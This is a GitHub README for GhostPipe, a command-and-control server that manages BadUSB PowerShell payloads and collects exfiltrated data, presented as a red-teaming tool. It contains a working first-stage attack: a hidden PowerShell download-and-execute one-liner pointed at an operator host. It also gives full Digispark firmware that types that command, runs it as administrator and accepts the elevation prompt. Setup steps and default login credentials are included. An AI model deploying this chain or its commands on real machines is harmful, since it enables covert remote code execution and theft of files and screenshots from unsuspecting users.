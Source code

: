 # GhostPipe C2 Server

GhostPipe is a minimal, simple, self-hosted Command-and-Control (C2) framework designed for red teaming and ethical hacking exercises.

It allows you to manage BadUSB PowerShell-based payloads, collect exfiltrated data, and operate via a responsive web UI optimized for both desktop and mobile.

You install GhostPipe on any server, flash your Digispark or BadUSB device with a tiny PowerShell stub that simply downloads whatever lives at `/x`, and then point it at your GhostPipe URL. From the web UI you can add, edit, activate or deactivate payloads on the fly. Therefore, the next time your device plugs in it will fetch the newest script, and any data it POSTs back to /exfil (text, files or even screenshots) is automatically collected, decoded and presented in your dashboard for review.

## 🎬 Video
Check out the YouTube video:

[![Thumbnail](https://img.youtube.com/vi/HtsikQ0pRyg/0.jpg)](https://youtu.be/HtsikQ0pRyg)

## 🖼️ Screenshots
![image](https://github.com/user-attachments/assets/6ad827b0-6c40-4b70-b0ad-6a9a7bc23bc8)

![image](https://github.com/user-attachments/assets/1b15b7d6-1249-4a74-a61a-e9b361f7c79d)

![image](https://github.com/user-attachments/assets/c563d3f5-5cd1-46c6-b88f-16a43573cefa)


## 🔑 Features

  * Secure login with username/password (bcrypt-hashed)
  * Change username & password
  * Automatic session invalidation on password change
  * Create, edit, delete PowerShell payloads
  * Activate/deactivate payloads (single active payload at a time)
  * Export/import payloads as JSON
  * Collect exfiltrated data and save in database
  * Embedded thumbnails for screenshots


## 🛠️ Requirements

* Python 3.8+
* Flask 3.x
* Flask-Login
* Flask-Bcrypt
* SQLite3

Install dependencies with:

```bash
pip install flask flask-login flask-bcrypt
```


## ⚙️ Installation & Configuration

1. **Clone the repo**

```bash
git clone https://github.com/Nickguitar/GhostPipe.git
cd GhostPipe
```

2. **Configure environment variables** (optional — defaults shown):
```bash
export GHOSTPIPE_DB=c2.db
export GHOSTPIPE_SECRET=mysecretkey
export GHOSTPIPE_USER=admin
export GHOSTPIPE_PASS=Gh0stP!p3
```

3. **Initialize database and Start the server**:

```bash
python main.py
```

4. **Open your browser** at `http://localhost:8000/` and log in with your credentials.

## 🚀 Usage

* Flash the badUSB with the first stage code. This should be done only once to set up the USB device. See next section.
* First Log in with `admin:Gh0stP!p3`, and change password.
* Add Payload: Go to “Payloads” → Add ➕, enter a name and your PowerShell script, then Save.
* Import: You can also import a pre-built list of payloads. [See some examples here](EXAMPLES.md).
* Activate/Deactivate: Toggle the active payload via the toggle icons in the Actions column. The active payload is the one to be run when the badUSB script is executed.
* View Exfiltrated data: Click “View Exfiltrated Data” to see collected outputs from successful executions.
* Settings: Update username/password under the ⚙️ Settings button.

## Flashing the badUSB with first stage

Paste the following code into [Duckify](https://duckify.huhn.me/), changing `<YOUR_HOST>:8000` to your public facing URL with GhostPipe. Make sure to select correctly the keyboard layout, otherwise it will break the slashes when typing it:

```
STRING powershell -NoP -NonI -WindowStyle hidden -Exec Bypass iwr https://<YOUR_HOST>.com/x|iex
```

It should generate the constant `const uint8_t key_arr_0[] PROGMEM = {...}`. Copy it and replace in the following code. 

```cpp
#include "DigiKeyboard.h"

// powershell -NoP -NonI -WindowStyle hidden -Exec Bypass iwr https://<YOUR_HOST>.com/x|iex
// CHANGE THIS:
const uint8_t key_arr_0[] PROGMEM = {0,19, 0,18, 0,26, 0,8, 0,21, 0,22, 0,11, 0,8, 0,15, 0,15, 0,44, 0,45, 2,17, 0,18, 2,19, 0,44, 0,45, 2,17, 0,18, 0,17, 2,12, 0,44, 0,45, 2,26, 0,12, 0,17, 0,7, 0,18, 0,26, 2,22, 0,23, 0,28, 0,15, 0,8, 0,44, 0,11, 0,12, 0,7, 0,7, 0,8, 0,17, 0,44, 0,45, 2,8, 0,27, 0,8, 0,6, 0,44, 2,5, 0,28, 0,19, 0,4, 0,22, 0,22, 0,44, 0,12, 0,26, 0,21, 0,44, 0,11, 0,23, 0,23, 0,19, 0,22, 2,56, 64,20, 64,20, 2,54, 2,28, 2,18, 2,24, 2,21, 2,45, 2,11, 2,18, 2,22, 2,23, 2,55, 0,55, 0,6, 0,18, 0,16, 64,20, 0,27, 2,100, 0,12, 0,8, 0,27};

void duckyString(const uint8_t* keys, size_t len) {  
    for(size_t i=0; i<len; i+=2) {
        DigiKeyboard.sendKeyStroke(pgm_read_byte_near(keys + i+1), pgm_read_byte_near(keys + i));
    }
}

void setup() {
    pinMode(1, OUTPUT);
    digitalWrite(1, LOW);
    DigiKeyboard.sendKeyStroke(0); // Tell computer no key is pressed
    DigiKeyboard.delay(1000);
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(21, 8); // GUI r
    DigiKeyboard.delay(700);
    duckyString(key_arr_0, sizeof(key_arr_0)); // STRING powershell -NoP -NonI -WindowStyle hidden...
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(40, 3); // CTRL SHIFT ENTER (execute as admin)
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(28, 4); // ALT y
    DigiKeyboard.delay(200);
    digitalWrite(1, HIGH); // Turn LED on
}

void loop() {}
```
## 📋 TODO
- [ ] Encryption
- [ ] Anti-flood protection (require auth token to POST to `/exfil`)
- [ ] Improve audit logs
- [ ] Scheduled payload activations (cron job)
- [ ] Docker container
